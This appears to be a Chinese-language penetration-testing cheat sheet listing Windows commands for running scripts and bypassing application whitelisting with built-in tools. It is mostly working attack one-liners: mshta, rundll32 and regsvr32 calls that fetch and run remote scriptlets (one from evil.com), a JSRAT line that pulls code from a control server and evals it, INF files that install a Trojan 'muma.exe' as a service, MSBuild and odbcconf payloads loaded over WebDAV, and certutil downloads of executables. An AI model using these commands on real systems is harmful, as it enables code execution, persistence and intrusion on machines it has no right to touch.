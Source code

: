 windows script example in penetration
----

#### 1.	powershell ####

	powershell -executionpolicy bypass ./powershell_script.ps1

#### 2. VBS ####

默认可以直接在机器上运行，命令行下可以通过`cscript.exe`执行

	cscript.exe vbs_script.vbs
	vbs_script.vbs


#### 3. csc(.cs c#) ####

首先通过`csc.exe`进行编译c#为`exe`，然后通过`InstallUtil.exe`进行程序执行

	C:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe /unsafe /out:PEL.exe InstallUtilBypass.cs

	InstallUtil.exe /logfile= /LogToConsole=false /U PEL.exe

#### 4. Jscript(.js) ####

可以通过`wscript.exe`、`cscript.exe`以及直接运行，主要通过`ActiveXObject()`创建对应的对象`WScript.shell`、`Shell.Application`.

	cscript.exe/wscript.exe jscript.js
	jscript.js

JScript参考链接：http://www.yuanma.net/Manual/JavaScript/

https://evi1cg.me/archives/Run_JSRAT.html

#### 5. Mshta ####

HTA（HTML Application)，可以嵌入`JScript`和`VBScript`，后缀名为`.hta`时可以直接运行，使用命令行`mshta`时，后缀可以使用`htm`,`xml`. 执行时带上绝对路径方可运行，否则无效。

	mshta vbscript:Close(Execute("GetObject(""script:https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/Windows/Payloads/mshta.sct"").Exec()"))

	mshta.exe javascript:a=GetObject("script:https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/Windows/Payloads/mshta.sct").Exec();close();

#### 6. Rundll32 ####

利用时需要注意`RunHTMLApplication`后面是有一个空格。

	rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();h=new%20ActiveXObject("WinHttp.WinHttpRequest.5.1");h.Open("GET","http://127.0.0.1:8081/connect",false);try{h.Send();b=h.ResponseText;eval(b);}catch(e){new%20ActiveXObject("WScript.Shell").Run("cmd /c taskkill /f /im rundll32.exe",0,true);}%  #JSRAT

	rundll32 AllTheThings.dll,EntryPoint 

	rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";o=GetObject("script:https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/Windows/Payloads/mshta.sct");o.Exec();window.close();	

通过`system`的一些`dll`可以扩展很多绕过方法：

	rundll32 url.dll, OpenURL file://c:\windows\system32\calc.exe

	rundll32 url.dll, OpenURLA file://c:\windows\system32\calc.exe

	rundll32 url.dll, FileProtocolHandler calc.exe

修改注册表项

reg.inf

    [Version]
    
    Signature="$WINDOWS NT$"
    
    [DefaultInstall]
    
    AddReg=My_AddReg_Name
    
    DelReg=My_DelReg_Name
    
    [My_DelReg_Name]
    
    HKLM,SOFTWARE\Microsoft\Windows\CurrentVersion\Run,KAVRun

    rundll32.exe setupapi,InstallHinfSection DefaultInstall 128 c:/reg.inf

添加服务

srv.inf

    [Version]
    Signature="$WINDOWS NT$"
    [DefaultInstall.Services]
    AddService=inetsvr,,My_AddService_Name
    [My_AddService_Name]
    DisplayName=Windows Internet Service
    Description=提供对 Internet 信息服务管理的支持。
    ServiceType=0x10
    StartType=2
    ErrorControl=0
    ServiceBinary=%11%\muma.exe

	rundll32.exe setupapi,InstallHinfSection DefaultInstall 128 c:/srv.inf

https://github.com/redcanaryco/atomic-red-team/tree/master/Windows/Payloads/AllTheThings

#### 7. Regsvcs/Regasm

白名单绕过方法，通过加载DLL(.Net/C#).	(尝试在即编写dll，一直失败）, `regsvcs`注册`dll`需要签名。

	x86 C:\Windows\Microsoft.NET\Framework\v4.0.30319\regsvcs.exe AllTheThings.dll

	x64 C:\Windows\Microsoft.NET\Framework64\v4.0.30319\regsvcs.exe AllTheThings.dll


	x86 C:\Windows\Microsoft.NET\Framework\v4.0.30319\regasm.exe /U AllTheThings.dll

	x64 C:\Windows\Microsoft.NET\Framework64\v4.0.30319\regasm.exe /U AllTheThings.dll

https://github.com/redcanaryco/atomic-red-team/tree/master/Windows/Payloads/AllTheThings

https://gist.githubusercontent.com/jbarcia/a5ba8cf3badebf3c802f83832eda1059/raw/39aa6341cda40500a02cfc069b6d6ec45f1c5028/evil.cs(在编译这个脚本时，需要更改系统语言区域为英语/美国，非unicode，编译就不会报错了)

	rundll32 evil.dll,EntryPoint

http://www.codesec.net/view/443056.html

#### 8. Regsvr32

本地脚本加载运行

	regsvr32.exe /s /u /i:payload.sct scrobj.dll

远程脚本加载运行

	regsvr32.exe /s /u /i:http://evil.com/payload.sct scrobj.dll

	regsvr32.exe  payload.dll	# DLLregisterServer
	regsvr32.exe  /u payload.dll # DLLUnregisterServer

#### 9. odbcconf/Msbuild

	odbcconf /s /a {regsvr \\webdavserver\folder\payload_dll.txt}

	cmd /V /c "set MB="C:\Windows\Microsoft.NET\Framework64\v4.0.30319\MSBuild.exe" & !MB! /noautoresponse /preprocess \\webdavserver\folder\payload.xml > payload.xml & !MB! payload.xml"

windows 文件下载

	certutil.exe -urlcache -split -f http://192.168.1.192/Client.exe 1.exe
	certutil.exe -urlcache -split -f http://192.168.1.192/Client.exe delete